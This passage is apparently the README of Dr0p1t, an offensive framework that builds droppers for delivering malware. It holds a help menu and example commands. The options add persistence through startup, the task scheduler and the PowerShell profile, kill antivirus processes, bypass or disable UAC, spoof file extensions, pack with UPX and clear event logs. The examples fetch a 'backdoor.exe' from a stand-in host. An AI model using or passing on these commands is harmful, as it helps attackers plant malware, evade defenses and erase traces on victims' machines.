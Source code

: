 [See more](https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Windows)

## On Linux (Kali linux)
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/LinuxTest-1.png" width="100%"></img>

[See more](https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux)

## On OSX
Still not fully tested! Need some contributors and testers :smile:

### Help menu
```
Usage: Dr0p1t.py Malware_Url [Options]

options:
-h, --help      show this help message and exit
-s              Add your malware to startup (Persistence)
-t              Add your malware to task scheduler (Persistence)
-a              Add your link to powershell user profile (Persistence)
-k              Kill antivirus process before running your malware.
-b              Run this batch script before running your malware. Check scripts folder
-p              Run this powershell script before running your malware. Check scripts folder
-v              Run this vbs script before running your malware. Check scripts folder
--runas         Bypass UAC and run your malware as admin
--spoof         Spoof the final file to an extension you choose.
--zip           Tell Dr0p1t that the malware in the link is compressed as zip
--upx           Use UPX to compress the final file.
--nouac         Try to disable UAC on victim device
-i              Use icon to the final file. Check icons folder.
--noclearevent  Tell the framework to not clear the event logs on target machine after finish.
--nocompile     Tell the framework to not compile the final file.
--only32        Download your malware for 32 bit devices only
--only64        Download your malware for 64 bit devices only
-q              Stay quite ( no banner )
-u              Check for updates
-nd             Display less output information
```
### Examples
```
./Dr0p1t.py Malware_Url [Options]
./Dr0p1t.py https://test.com/backdoor.exe -s -t -a -k --runas --upx
./Dr0p1t.py https://test.com/backdoor.exe -k -b block_online_scan.bat --only32
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k -p Enable_PSRemoting.ps1 --runas
./Dr0p1t.py https://test.com/backdoor.zip -t -k --nouac -i flash.ico --spoof pdf --zip
```
# Prerequisites
- Python 2 or Python 3.
